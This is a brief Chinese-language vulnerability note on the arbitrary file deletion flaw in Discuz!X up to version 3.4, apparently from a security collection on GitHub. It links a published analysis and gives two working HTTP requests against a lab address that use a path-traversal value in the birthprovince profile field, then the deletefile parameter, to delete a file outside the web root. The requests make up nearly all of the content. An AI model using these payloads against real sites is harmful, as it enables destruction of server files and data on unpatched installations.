


影响范围: <= !3.4

验证存在

[Discuz!X ≤3.4 任意文件删除漏洞分析](https://paper.seebug.org/411/)
```
http://192.168.48.136/DZ3_2/home.php?mod=spacecp&ac=profile&op=base
POST birthprovince=../../../test.txt&profilesubmit=1&formhash=7ba86638
```



```
http://192.168.48.136/DZ3_2/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa
POST birthprovince=../../../test.txt&profilesubmit=1&formhash=7ba86638
其中formhash为用户hash
``` 
